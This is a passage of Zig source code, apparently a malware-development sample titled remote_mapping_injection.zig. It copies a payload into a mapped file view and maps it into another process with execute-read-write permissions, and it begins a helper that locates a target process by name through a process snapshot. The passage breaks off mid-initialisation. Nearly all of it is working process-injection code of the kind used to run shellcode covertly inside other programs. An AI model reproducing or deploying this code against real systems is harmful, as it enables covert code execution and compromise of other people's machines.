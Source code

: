 ```zig name=remote_mapping_injection.zig
    print("\t[i] Copying Payload To 0x{X} ... ", .{@intFromPtr(pMapLocalAddress.?)});

    // Copy payload to mapped memory
    const dest = @as([*]u8, @ptrCast(pMapLocalAddress.?));
    @memcpy(dest[0..pPayload.len], pPayload);

    print("[+] DONE\n", .{});

    // Map the same file into the remote process with execute permissions
    pMapRemoteAddress = MapViewOfFileNuma2(
        hFile.?,
        hProcess,
        0,
        null,
        0,
        0,
        PAGE_EXECUTE_READWRITE,
        NUMA_NO_PREFERRED_NODE,
    );

    if (pMapRemoteAddress == null) {
        print("\t[!] MapViewOfFileNuma2 Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        if (hFile) |handle| _ = CloseHandle(handle);
        return bState;
    }

    print("\t[+] Remote Mapping Address : 0x{X}\n", .{@intFromPtr(pMapRemoteAddress.?)});

    ppAddress.* = pMapRemoteAddress;
    if (hFile) |handle| _ = CloseHandle(handle);
    return bState;
}

fn getRemoteProcessHandle(process_name: []const u16, process_id: *windows.DWORD, process_handle: *?windows.HANDLE) bool {
    // Initialize return values to null
    process_id.* = 0;
    process_handle.* = null;

    // Take a snapshot of currently running processes
    const h_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (h_snapshot == INVALID_HANDLE_VALUE) {
        std.debug.print("\t[!] CreateToolhelp32Snapshot Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        return false;
    }
    defer {
        _ = windows.CloseHandle(h_snapshot);
    }

    // Setup process entry
    var proc = PROCESSENTRY32{
        .dwSize = @sizeOf(PROCESSENTRY32),
        .cntUsage = 0,
        .th32ProcessID = 0,
        .th32DefaultHeapID = 0,
        .th32ModuleID = 0,
        .cntThreads = 0,
        .th32ParentProcessID = 0,
        .pcPriClassBase = 0,
```